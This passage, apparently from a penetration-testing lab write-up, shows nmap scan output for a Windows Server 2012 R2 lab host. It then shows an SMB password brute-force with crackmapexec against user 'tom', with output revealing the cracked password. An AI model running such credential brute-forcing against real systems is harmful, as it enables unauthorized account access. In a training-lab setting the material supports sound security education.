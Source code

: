 ```bash
|_ssl-date: 2025-05-31T03:18:16+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=WIN-M878Q9NE9S6
| Not valid before: 2025-01-08T05:31:54
|_Not valid after:  2025-07-10T05:31:54
| rdp-ntlm-info: 
|   Target_Name: WIN-M878Q9NE9S6
|   NetBIOS_Domain_Name: WIN-M878Q9NE9S6
|   NetBIOS_Computer_Name: WIN-M878Q9NE9S6
|   DNS_Domain_Name: WIN-M878Q9NE9S6
|   DNS_Computer_Name: WIN-M878Q9NE9S6
|   Product_Version: 6.3.9600
|_  System_Time: 2025-05-31T03:18:09+00:00
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb2-time: 
|   date: 2025-05-31T03:18:12
|_  start_date: 2025-05-31T02:57:55
| smb2-security-mode: 
|   3:0:2: 
|_    Message signing enabled but not required
```

Based on the question we already know the username which is `tom` so let’s do a brute force on the target using hydra

```bash
┌──(root㉿INE)-[~]
└─# crackmapexec smb target.ine.local -u tom -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
[*] First time use detected
[*] Creating home directory structure
[*] Creating default workspace
[*] Initializing RDP protocol database
[*] Initializing SSH protocol database
[*] Initializing MSSQL protocol database
[*] Initializing FTP protocol database
[*] Initializing LDAP protocol database
[*] Initializing WINRM protocol database
[*] Initializing SMB protocol database
[*] Copying default configuration file
[*] Generating SSL certificate
SMB         target.ine.local 445    WIN-M878Q9NE9S6  [*] Windows 8.1 / Server 2012 R2 Build 9600 x64 (name:WIN-M878Q9NE9S6) (domain:WIN-M878Q9NE9S6) (signing:False) (SMBv1:False)
SMB         target.ine.local 445    WIN-M878Q9NE9S6  [-] WIN-M878Q9NE9S6\tom:admin STATUS_LOGON_FAILURE 
SMB         target.ine.local 445    WIN-M878Q9NE9S6  [-] WIN-M878Q9NE9S6\tom:123456 STATUS_LOGON_FAILURE 
SMB         target.ine.local 445    WIN-M878Q9NE9S6  [+] WIN-M878Q9NE9S6\tom:felipe 
```
